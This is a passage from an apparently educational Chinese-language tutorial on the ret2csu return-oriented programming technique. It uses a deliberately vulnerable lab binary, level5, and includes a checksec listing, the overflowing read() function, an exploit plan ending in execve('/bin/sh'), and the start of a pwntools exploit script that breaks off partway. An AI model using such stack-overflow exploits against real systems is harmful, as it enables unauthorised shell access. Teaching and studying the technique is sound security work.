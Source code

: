 這裏我們可以利用以下幾點

- 從 0x000000000040061A 一直到結尾，我們可以利用棧溢出構造棧上數據來控制 rbx,rbp,r12,r13,r14,r15 寄存器的數據。
- 從 0x0000000000400600 到 0x0000000000400609，我們可以將 r13 賦給 rdx,將 r14 賦給 rsi，將 r15d 賦給 edi（需要注意的是，雖然這裏賦給的是 edi，**但其實此時 rdi 的高 32 位寄存器值爲 0（自行調試）**，所以其實我們可以控制 rdi 寄存器的值，只不過只能控制低 32 位），而這三個寄存器，也是 x64 函數調用中傳遞的前三個寄存器。此外，如果我們可以合理地控制 r12 與 rbx，那麼我們就可以調用我們想要調用的函數。比如說我們可以控制 rbx 爲 0，r12 爲存儲我們想要調用的函數的地址。
- 從 0x000000000040060D 到 0x0000000000400614，我們可以控制 rbx 與 rbp 的之間的關係爲rbx+1 = rbp，這樣我們就不會執行 loc_400600，進而可以繼續執行下面的彙編程序。這裏我們可以簡單的設置rbx=0，rbp=1。

### 示例

這裏我們以蒸米的一步一步學 ROP 之 linux_x64 篇中 [level5](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/blob/master/linux_x64/level5) 爲例進行介紹。首先檢查程序的安全保護

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序爲 64 位，開啓了堆棧不可執行保護。

其次，尋找程序的漏洞，可以看出程序中有一個簡單的棧溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

簡單瀏覽下程序，發現程序中既沒有 system 函數地址，也沒有 /bin/sh 字符串，所以兩者都需要我們自己去構造了。

**注：這裏我嘗試在我本機使用 system 函數來獲取 shell 失敗了，應該是環境變量的問題，所以這裏使用的是execve 來獲取 shell。**

基本利用思路如下

- 利用棧溢出執行 libc_csu_gadgets 獲取 write 函數地址，並使得程序重新執行 main 函數
- 根據 libcsearcher 獲取對應 libc 版本以及 execve 函數地址
- 再次利用棧溢出執行 libc_csu_gadgets 向 bss 段寫入 execve 地址以及 '/bin/sh’ 地址，並使得程序重新執行main 函數。
- 再次利用棧溢出執行 libc_csu_gadgets 執行 execve('/bin/sh') 獲取 shell。

exp 如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
```